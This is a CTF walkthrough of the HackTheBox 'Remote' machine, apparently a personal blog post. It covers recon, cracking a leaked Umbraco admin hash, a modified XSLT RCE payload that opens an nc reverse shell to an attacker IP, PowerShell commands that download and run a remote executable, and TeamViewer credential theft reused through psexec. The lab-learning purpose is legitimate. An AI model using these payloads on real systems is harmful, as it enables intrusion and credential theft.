 # CTF Writeup: HackTheBox - [Remote](https://www.hackthebox.eu/home/machines/profile/234)

In 2020 (thanks to COVID lockdowns), I started working on HackTheBox challenges. So far I have pwned/rooted 7 machines and it is too much fun! I finally got some time to go through my notes and decided to write this brief walkthrough to the [Remote](https://www.hackthebox.eu/home/machines/profile/234) machine.

This is not going to be a full wript-up with detailed steps, I am just going to skip over to most interesting findings. It goes without saying that there was hours of research between each stage and a lot of learning.

* Starting off with an NMAP Scan:

```
ports=$(sudo nmap -p- --min-rate=1000 -T4 10.10.10.180 | grep ^[0-9] | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
sudo nmap -sC -sV -p$ports 10.10.10.180
```
We get a huge list of open ports and services:

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst:
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49678/tcp open  msrpc         Microsoft Windows RPC
49679/tcp open  msrpc         Microsoft Windows RPC
49680/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-05-31T11:01:30
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 84.11 seconds

```

* As usual, I went through most of the well known ports to explore the attack surface:
    - Start dirbuster on web applications
    - Start manually browsing the web content
    - Attempt manual connections to ftp and mountd services
    - Fire up msfconsole and run some recon against netbios and rpc

* I hit to possible leads in the recon:
   - Dirbuster found bunch of content on port 80
   
      ```
      GENERATED WORDS: 4612

      ---- Scanning URL: http://10.10.10.180/ ----
      + http://10.10.10.180/about-us (CODE:200|SIZE:5441)
      + http://10.10.10.180/blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/Blog (CODE:200|SIZE:5001)
      + http://10.10.10.180/contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/Contact (CODE:200|SIZE:7880)
      + http://10.10.10.180/home (CODE:200|SIZE:6703)
      + http://10.10.10.180/Home (CODE:200|SIZE:6703)
      + http://10.10.10.180/install (CODE:302|SIZE:126)
      + http://10.10.10.180/intranet (CODE:200|SIZE:3323)
      + http://10.10.10.180/master (CODE:500|SIZE:3420)
      + http://10.10.10.180/people (CODE:200|SIZE:6739)
      + http://10.10.10.180/People (CODE:200|SIZE:6739)
      + http://10.10.10.180/person (CODE:200|SIZE:2741)
      + http://10.10.10.180/product (CODE:500|SIZE:3420)
      + http://10.10.10.180/products (CODE:200|SIZE:5328)
      + http://10.10.10.180/Products (CODE:200|SIZE:5328)
      + http://10.10.10.180/umbraco (CODE:200|SIZE:4040)
      ```
   - Umbraco is a CMS so I used a [Umbraco discovery wordlist](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/CMS) and discovered the login page 
   
      ` http://10.10.10.180/umbraco#/login/false?returnPath=%252Fumbraco`
   - Second important discovery:
      - I was able to mount a volume using the mountd service
        `mount 10.10.10.180:/site_backups site_backups/`
      - It contained a directory called `App_data` with file `Umbraco.sdf`
      - A quick google search revelead it's a database file
      - Not sure how to open this file, I just drag and dropped it into my VSCode editor and instantly noticed a plain text string in load of garbage 
        
          `Administratoradminb8be16afba8c314ad33d812f22a04991b90e2aaa{"hashAlgorithm":"SHA1"}`
      - BAM! There it is, the SHA1 hash for the Umbraco Administrator's password. But how do I crack it?
      - Well, I just googled how to crack SHA1 hash, in top results I see `https://crackstation.net/`, paste the hash into this website, and BAM! `baconandcheese` is the password!
      - Login to the Umbraco CMS as admin
 
* Next step is to somehow get code execution. So I re-visited exploit-db and noticed [Umbraco CMS 7.12.4 - (Authenticated) Remote Code Execution](https://www.exploit-db.com/exploits/46153) exploit. The word authenticated caught my eye and I was quite sure this exploit has to work. Of course, it didn't work.
* After bit of tinkering with the payload, I modified it to obtain a reverse shell using nc back to my kali machine:

```
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = "10.10.14.23:4449"; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "nc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> '
```
Got the user flag `type c:\Users\Public\user.txt`
 
* Now for finding privilege escalation to root, I spent too much time looking around the system and finding missing patches, etc but no luck. Hmm, the name of the machine is `remote` so there must be a remote access service that we can exploit. Did some service enumeration and found that TeamViewer is running. That's probably the way in.

* In Metasploit, I noticed `windows/gather/credentials/teamviewer_passwords` module. So I spent the time to now get a proper shell into my msfconsole. I ended up using following commands in my existing reverse shell:
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.25:8000/rshell.exe');"

powershell.exe -command PowerShell -ExecutionPolicy bypass -noprofile -windowstyle hidden -command (New-Object System.Net.WebClient).DownloadFile('http://10.10.14.25:8000/rshell.exe',"$env:APPDATA\rshell.exe");Start-Process ("$env:APPDATA\rshell.exe")
```
* Once I had the session in msfconsole, I run the `windows/gather/credentials/teamviewer_passwords` module and BAM!
  ```
  TeamViewer Client ID - 1769137322
  Unattended Password: !R3m0te!
  ```
* Now, I tried many ways to use these credentials to actually connect to the target machine using TeamViewer client but it did not work. I could not figure out what was going on. So I slept over it.
* Next day, I was working and spent most of my day in Zoom meetings with my colleagues. At one point, there were disucssions about a phishing incident and re-using passwords. After tiring day of Zoomming, as I was recollecting my thoughts I realized the risks of **re-using passwords** and how it may be the trick in this HackTheBox challenge. 
* It would be too easy I said to myself, but decided to give it a try anyway. Fired up msfconsole, 
```
use windows/smb/psexec
SMBUSer administrator
SMBPass !R3m0te!
```
and BAM! I could not believe it worked. And as easy as that, we get the root flag!

